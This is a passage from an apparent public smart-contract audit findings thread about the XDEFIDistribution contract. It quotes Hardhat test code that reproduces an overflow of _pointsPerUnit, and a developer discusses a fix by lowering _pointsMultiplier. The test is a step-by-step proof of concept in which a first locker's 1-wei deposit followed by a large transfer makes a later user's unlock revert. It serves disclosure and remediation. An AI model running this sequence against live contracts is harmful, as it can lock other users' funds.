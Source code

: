 >         // 6. 30 days later, Bob tries to call unlock(), the tx will fail, as _pointsPerUnit * units overflows.
>         await hre.ethers.provider.send('evm_increaseTime', [2592000]);
>         await expect(XDEFIDistribution.connect(bob).unlock(nft2, bob.address)).to.be.revertedWith("_toInt256Safe failed");
>     });
> });
> ```
> 
> While I do like the suggestion to to `totalUnits = 100_000_000;` in the constructor, it will result "uneven" numbers due to the `totalUnits` offset. I wonder if I can resolve this but just reducing `_pointsMultiplier` to `uint256(2**96)` as per https://github.com/ethereum/EIPs/issues/1726#issuecomment-472352728.

**[deluca-mike (XDEFI) commented](https://github.com/code-423n4/2022-01-xdefi-findings/issues/156#issuecomment-1008266150):**
> OK, I think I can solve this with `_pointsMultiplier = uint256(2**72)`:
> 
> ```js
> const { expect } = require("chai");
> const { ethers } = require("hardhat");
> 
> const totalSupply = '240000000000000000000000000';
> 
> const toWei = (value, add = 0, sub = 0) => (BigInt(value) * 1_000_000_000_000_000_000n + BigInt(add) - BigInt(sub)).toString();
> 
> describe("XDEFIDistribution", () => {
>     it("Can overflow _pointsPerUnit", async () => {
>         const [god, alice, bob] = await ethers.getSigners();
> 
>         const XDEFI = await (await (await ethers.getContractFactory("XDEFI")).deploy("XDEFI", "XDEFI", totalSupply)).deployed();
>         const XDEFIDistribution = await (await (await ethers.getContractFactory("XDEFIDistribution")).deploy(XDEFI.address, "https://www.xdefi.io/nfts/", 0)).deployed();
> 
>         // Give each account 100M XDEFI
>         await (await XDEFI.transfer(alice.address, toWei(100_000_000))).wait();
>         await (await XDEFI.transfer(bob.address, toWei(100_000_000))).wait();
> 
>         // bonusMultiplierOf[30 days] = 255
>         await (await XDEFIDistribution.setLockPeriods([2592000], [255])).wait();
> 
>         // 1. Alice lock() 1 wei of XDEFI for 30 days as the first user of the contract. Got 1 units, and totalUnits now is 1
>         await (await XDEFI.connect(alice).approve(XDEFIDistribution.address, 1)).wait();
>         await (await XDEFIDistribution.connect(alice).lock(1, 2592000, alice.address)).wait();
>         expect(await XDEFIDistribution.balanceOf(alice.address)).to.equal('1');
>         const nft1 = (await XDEFIDistribution.tokenOfOwnerByIndex(alice.address, 0)).toString();
>         expect((await XDEFIDistribution.positionOf(nft1)).units).to.equal(2);
> 
>         // 2. Alice sends 100M XDEFI minus 1 wei to the contract and calls updateDistribution()
>         await (await XDEFI.connect(alice).transfer(XDEFIDistribution.address, toWei(100_000_000, 0, 1))).wait();
>         await (await XDEFIDistribution.connect(alice).updateDistribution()).wait();
> 
>         // 3. Bob can lock() 100M XDEFI for 30 days
>         await (await XDEFI.connect(bob).approve(XDEFIDistribution.address, toWei(100_000_000))).wait();
>         await (await XDEFIDistribution.connect(bob).lock(toWei(100_000_000), 2592000, bob.address)).wait();
>         expect(await XDEFIDistribution.balanceOf(bob.address)).to.equal('1');
>         const nft2 = (await XDEFIDistribution.tokenOfOwnerByIndex(bob.address, 0)).toString();
>         expect((await XDEFIDistribution.positionOf(nft2)).units).to.equal(toWei(255_000_000));